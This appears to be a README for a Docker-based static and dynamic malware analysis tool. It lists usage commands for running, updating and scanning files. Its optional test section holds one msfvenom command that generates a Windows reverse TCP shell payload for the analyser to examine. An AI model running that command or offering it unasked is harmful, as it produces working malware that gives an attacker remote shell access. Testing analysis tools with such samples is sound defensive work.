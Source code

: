 <H3>ALL IN ONE MALWARE ANALYSIS (STATIC AND DYNAMIC)</H3>
tuts: https://youtu.be/5Z4QXIDQVyE?si=UXykY_vxrarTooxw&t=646

**RUN**
`docker run -it --rm -v ~/www/:/data quickscope:latest

**HELP**
`docker run -it --rm -v ~/www/:/data quickscope:latest -h`

**UPDATE**
`docker run -it --rm -v ~/www/:/data quickscope:latest --db_update`

**SCAN**
`docker run -it --rm -v ~/www/:/data quickscope:latest --file <file/to/scan.exe> --analyze`

---

**NOTE**
IF YOU ADDED SOME MODIFICATIONS, 
YOU HAVE TO REBUILD THE CONTAINER BEFORE USING IT
`sudo docker build -t qu1cksc0pe `

---
**TEST PAYLOADS (OPTIONAL)**

basic windows (bin)
`msfvenom -p windows/x64/shell/reverse_tcp lhost=wlan lport=9443 -f raw -o basic.bin`

